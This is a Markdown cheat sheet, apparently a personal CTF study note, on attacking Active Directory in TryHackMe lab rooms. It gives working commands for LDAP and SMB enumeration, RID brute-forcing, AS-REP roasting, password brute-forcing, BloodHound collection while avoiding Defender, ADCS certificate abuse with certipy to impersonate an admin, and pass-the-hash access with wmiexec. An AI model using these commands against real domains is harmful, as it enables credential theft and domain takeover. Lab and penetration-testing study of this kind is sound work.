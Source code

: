 # AD Exploitation Guide

This is a limited guide; AD exploitation is a vast topic. But the path of attack starts narrow and expands. When approaching a AD environment, say if you are just starting with an IP address and have done a scan showing the thousands of ports that an domain computer, especially a CA (which we will assume is the default case for a small CTF) then what is the next step?

Sources:
- the ledger THM room https://tryhackme.com/room/ledger
- https://notes.incendium.rocks/pentesting-notes/windows-pentesting/enumerating-users-no-credentials
- https://wadcoms.github.io/ (often the command syntax is out of date / in valid)

## 0. Enumerating AD - getting distinguished names etc

- `enum4linux -a 10.10.128.189` is an old staple, but seems only partially functional these days
- `nmap -n -sV --script "ldap* and not brute" -p 389 10.10.128.189` will return a bunch of info, importantly including distinguished names
- `ldapsearch -x -h 10.10.128.189 -b "dc=thm,dc=local"` using a name space from the above (here `dc=thm,dc=local`). Super finicky, and might not work at all. If it does work, its efficacy will depend on the namespace (query?) you use so maybe try different combinations. Can produce a tonne of data.

## 1. Find a user

- You might be lucky and some info is on a website, or in a public share, ftp etc.
- If not, try sid iteration: this iterates through the predictable SID/RID range of a domain, looking for users:
    - `python3.9 /opt/impacket/examples/lookupsid.py thm/anon@labyrinth.thm.local` using an anonymous user (requires finding the domain name and host name)
    - `crackmapexec smb labyrinth.thm.local -u anonymous -p "" --rid-brute 10000`. On the attack box, crackmapexec can be installed with `snap install crackmapexec`

## 2. Finding a password

- If you are lucky, one of the earlier enumeration searches might contain data. For example often in CTF contexts, its been the case that something like `Please change it: CHANGEME2023!` is in the description of a user (e.g. in the ledger room this was the case), using the data from something like ldapsearch
- If you have a list of uses, look for asrep roastable tokens with `python3.9 /opt/impacket/examples/GetNPUsers.py THM/ -usersfile users.txt -dc-ip 10.10.128.189 -format hashcat -outputfile hashes`. These can be cracked with `-m 18200`
- All else failing, you can try bruting a user account with `./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman`. Note kerbrute has a linux version and windows: https://github.com/ropnop/kerbrute. It can be used for some of the earlier steps, and password spraying, but I've never had much success.

## 3. Credentialed enumeration

With a username/password combo, the path forward opens up. I generally do two things, small then large:

- get a proper domain dump, complete with browsable html files using `python3.9 ldapdomaindump.py 10.10.128.189 -u THM\\IVY_WILLIS -p CHANGEME2023!`. This is much easier to navigate than raw LDAP output, and can help for seeing user groups and other notes dotted around.
      - https://github.com/dirkjanm/ldapdomaindump.git
- get a bloodhound dump (see below)

### Bloodhound

There are a few ways to get the enumeration information (a couple of zip files) required for bloodhound overviews.

- done remotely with python, you can avoid defender problems: `bloodhound-python -d thm.local -v --zip -c All -u IVY_WILLIS -p 'CHANGEME2023!' --dns-tcp -ns 10.10.128.189`.
- on the box with sharphound (note this gets picked up by defender, best when AV is disabled): https://github.com/SpecterOps/SharpHound/releases - just unzip the zip, and copy SharpHound.exe (or .ps1?) to the target, then run with -c All to get a zip of data you will need to exfil

Note bloodhound CE might be the more supported interface for viewing, and runs from docker: https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart

## Escalation Special paths

TODO, an expandable section. Really there is almost no limit here. SPNs should be done when next encountered

- Exploiting misconfigured certs:
  - `python3.9 -m pip install certipy-ad`
  - use creds to find misconfigured certs `certipy find -u SUSANNA_MCKNIGHT@local.thm -p 'CHANGEME2023!' -dc-ip 10.10.128.189 -vulnerable`
  - if found enroll a vulnerable cert for a target, high priv user: `certipy req -username SUSANNA_MCKNIGHT  -password 'CHANGEME2023!' -ca thm-LABYRINTH-CA -target labyrinth.thm.local -template ServerAuth -upn bradley_ortiz@thm.local -dc-ip 10.10.128.189 -debug`
  - then use that cert to create a llvm hash: `certipy auth -pfx bradley_ortiz.pfx -dc-ip 10.10.128.189 -debug`
  - finally with those hashes, gain access. Evil-winrm is an option (might be deprecated), but impackets wmi-exec works well too: `python3.9 /opt/impacket/examples/wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:16ec31963c93240962b7e60fd97b495d thm.local/bradley_ortiz@10.10.128.189`
